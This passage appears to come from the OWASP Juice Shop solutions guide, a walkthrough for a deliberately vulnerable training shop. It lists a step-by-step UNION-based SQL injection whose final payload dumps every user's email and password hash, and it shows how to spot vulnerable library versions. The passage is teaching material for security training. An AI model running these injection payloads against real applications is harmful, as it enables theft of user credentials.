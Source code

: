    1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
      Users--` finally gives you a JSON response back with an extra
      element
      `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.

7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8', '9' FROM Users--` leaving only the "`UNION`ed" element
   in the result set
8. The last step is to replace the fixed values with correct column
   names. You could guess those **or** derive them from the RESTful API
   results **or** remember them from previously seen SQL errors while
   attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT id, email, password, '4', '5',
   '6', '7', '8', '9' FROM Users--` solves the challenge giving you a
   the list of all user data in convenient JSON format.

   ![User list from UNION SELECT attack](img/union_select-attack_result.png)

There is of course a much easier way to retrieve a list of all users as
long as you are logged in: Open <http://localhost:3000/#/administration>
while monitoring the HTTP calls in your browser's developer tools. The
response to <http://localhost:3000/rest/user/authentication-details>
also contains the user data in JSON format. But: This list has all the
password hashes replaced with `*`-symbols, so it does not count as a
solution for this challenge.

### Inform the shop about a vulnerable library it is using

Juice Shop depends on a JavaScript library with known vulnerabilities.
Having the `package.json.bak` and using an online vulnerability database
like [Retire.js](https://retirejs.github.io/) or
[Snyk](https://snyk.io/vuln) makes it rather easy to identify it.

1. Solve
   [Access a developer's forgotten backup file](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file)
2. Checking the dependencies in `package.json.bak` for known
   vulnerabilities online will give you a match (at least) for
   * `sanitize-html`: Sanitization of HTML strings is not applied
     recursively to input, allowing an attacker to potentially inject
     script and other markup (see
     <https://snyk.io/vuln/npm:sanitize-html:20160801>)
   * `express-jwt`: Inherits an authentication bypass and other
     vulnerabilities from its dependencies (see
     <https://app.snyk.io/test/npm/express-jwt/0.1.3>)
3. Visit <http://localhost:3000/#/contact>
   1. Submit your feedback with the string pair `sanitize-html` and
      `1.4.2` appearing somewhere in the comment. Alternatively you can
      submit `express-jwt` and `0.1.3`.
